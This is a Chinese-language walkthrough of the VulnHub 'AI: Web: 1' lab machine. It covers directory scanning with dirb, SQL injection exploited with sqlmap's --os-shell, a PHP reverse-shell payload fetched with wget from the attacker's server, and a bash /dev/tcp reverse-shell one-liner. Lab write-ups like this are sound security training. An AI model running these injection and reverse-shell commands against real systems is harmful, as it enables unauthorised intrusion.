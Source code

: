 ## vulnhub靶场ai-web 1.0

配置环境 windows11 vmware 17.5 kali

靶机下载地址[AI: Web: 1 ~ VulnHub](https://www.vulnhub.com/entry/ai-web-1,353/)

![image-20231114183047625](http://111.229.225.13:81/i/2023/11/14/u9vijx-2.png)

我选的是这个，然后下载完成后解压，使用VMware选择打开虚拟机点击解压后的文件夹，可以找到对应的文件，然后选择复制此虚拟机，（选移动的话有个bug）

现在开始靶场练习

![image-20231114183418652](http://111.229.225.13:81/i/2023/11/14/uc1s8y-2.png)

攻击机：kali  ip:192.168.31.131

首先kali使用

```bash
arp-scan -l
```

命令查看所处的主机

![image-20231114183927023](http://111.229.225.13:81/i/2023/11/14/uf2ja9-2.png)

可以发现靶机ip为192.168.31.132 

尝试访问此地址

![image-20231114184131060](http://111.229.225.13:81/i/2023/11/14/uga50c-2.png)

这里采用kali自带的dirb url 命令去探测目录

```bash
dirb http://192.168.31.132  
```

![image-20231114184449226](http://111.229.225.13:81/i/2023/11/14/ui6gi8-2.png)

找到三个地址 

第一个已经访问过了，第三个403，所以先看看第二个

![image-20231114184743434](http://111.229.225.13:81/i/2023/11/14/ujxb4o-2.png)

这里顺带说明一下（robots.txt文件是为了遵循爬虫协议，在这里面定义的路径，表示不希望被爬虫爬取）

尝试直接访问，发现都是403，这里再次使用dirb命令探测一下目录

```bash
dirb http://192.168.31.132/m3diNf0/
```

![image-20231114185042175](http://111.229.225.13:81/i/2023/11/14/ulp7bw-2.png)

访问一下

![image-20231114185119984](http://111.229.225.13:81/i/2023/11/14/um65ep-2.png)

phpinfo暴露一些敏感信息，观察此页面

可以得到的信息有：

- 网站架构  ubuntu apache mysql
- 绝对路径   /home/www/html/web1x443290o2sdf92213
- 敏感配置  open_basedir 未完成关闭

再接着对/se3reTdir777/uploads/ 进行dirb

```bash
dirb http://192.168.31.132/se3reTdir777/uploads/
```

没有结果尝试对上一级目录扫描

```bash
dirb http://192.168.31.132/se3reTdir777/
```

![image-20231114190515843](http://111.229.225.13:81/i/2023/11/14/viahgi-2.png)

扫到一个新的url，访问一下

![image-20231114190753463](http://111.229.225.13:81/i/2023/11/14/vjq11t-2.png)

有时候可能会出现bug,例如mysql无法访问之类的，这里建议关机重启，或者直接删掉，再弄一次

输入1‘，后报错,熟悉的sql注入来了

![image-20231114190933015](http://111.229.225.13:81/i/2023/11/14/vks6yv-2.png)

这里直接上sqlmap，主要sql注入确实没学好

我是采用bp抓post包然后使用sqlmap -r post,txt 

![image-20231114191542336](W:\MyNote\cyber_security\靶场\vulnhub\vulnhub靶场ai-web 1.0\image-20231114191542336.png)

copy to file

然后使用命令

```python
python sqlmap.py -r "post.txt" --level=3 --dbs
```

看看能否暴数据库

![image-20231114193607645](http://111.229.225.13:81/i/2023/11/14/w0p9qx-2.png)

目前得知的条件有

- 网站绝对路径
- 可暴数据库

尝试sqlmap 注入拿shell

```
python sqlmap.py -r "post.txt" --level=3 --os-shell
```

![image-20231114194355154](http://111.229.225.13:81/i/2023/11/14/w55z6a-2.png)

这里输入之前的网络根地址，还需要一个可以写入的文件，这里将之前的目录一个个尝试

/home/www/html/web1x443290o2sdf92213/se3reTdir777/uploads/

发现此目录可以写入

![image-20231114194719191](http://111.229.225.13:81/i/2023/11/14/w7ben1-2.png)

输入whoami 和 id 命令查看权限

![image-20231114194819608](http://111.229.225.13:81/i/2023/11/14/w7x0i4-2.png)

网站权限，同时也说明具有写入权限

尝试提权

这里采用反弹shell

相关文章[反弹Shell的方式和详解_powershell 反弹shell-CSDN博客](https://blog.csdn.net/Aaron_Miller/article/details/106825087)

首先使用

```bash
nc -lvp 8888 #端口号可以自拟
```

然后再开一个终端创建一个php文件

```php
<?php
$sock=fsockopen("192.168.31.131",8888); //ip地址填写自己攻击机的ip
exec("/bin/sh -i <&3 >&3 2>&3");
?>

```

并且在终端位置开启vps（服务器）服务，这里使用python搭建

```python
python -m http.server 8848 #端口号随意
```

![image-20231114202250808](http://111.229.225.13:81/i/2023/11/14/xg5xiu-2.png)

![image-20231114202412616](http://111.229.225.13:81/i/2023/11/14/xh4jp4-2.png)

![image-20231114203306322](http://111.229.225.13:81/i/2023/11/14/xmg5lf-2.png)

```bash
wget -S http://192.168.31.131:8848/2.php
```

使用此命令控制靶机下载刚刚写的1.php文件

![image-20231114203249468](http://111.229.225.13:81/i/2023/11/14/xm41zt-2.png)

```
bash -i >& /dev/tcp/192.168.31.131/8888 0>&1
```

![image-20231115093119661](http://111.229.225.13:81/i/2023/11/15/fehbgk-2.png)

 